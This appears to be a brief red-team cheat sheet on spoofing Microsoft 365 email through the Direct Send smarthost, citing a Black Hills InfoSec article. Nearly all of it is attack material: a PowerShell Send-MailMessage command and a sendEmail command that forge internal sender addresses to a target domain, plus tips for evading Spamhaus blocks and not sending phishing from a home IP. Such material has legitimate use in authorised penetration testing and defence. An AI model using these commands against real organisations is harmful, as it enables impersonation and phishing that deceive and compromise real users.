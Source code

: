 ### Source
https://www.blackhillsinfosec.com/spoofing-microsoft-365-like-its-1995

### Spoofing using Micrsoft Direct Send
```
Prerequisites:
- Microsoft 365 subscription and an Exchange Online Plan
- MX endpoint called Smarthost: <targetDomain-domainComponent>.mail.protection.outlook.com
```

### Spoof message using Microsoft Direct Send
```
Send-MailMessage -SmtpServer <company-com>.mail.protection.outlook.com -To <user>@<company.com> -From <user>@<company.com> -Subject "<subject>" -Body "<body>" -BodyAsHTML
```

### Spoof message using Microsoft Direct Send 
```
cat <file.html> | sendEmail -f "<user>@<company.com>" -u "<subject>" -s "<company-com>.mail.protection.outlook.com" -t "<user>@<company-com>" -o message-content-type=html
```

### Note
```
SPAMHAUS will block most residential IP addresses from sending spoofed emails.
Do not send phishing emails from your house IP adress.

If you get:
... Service unavailable, Client host [...] blocked using Spamhaus. 
-> Try sending using the ipv4 address instead of <company-com>.mail.protection.outlook.com
```

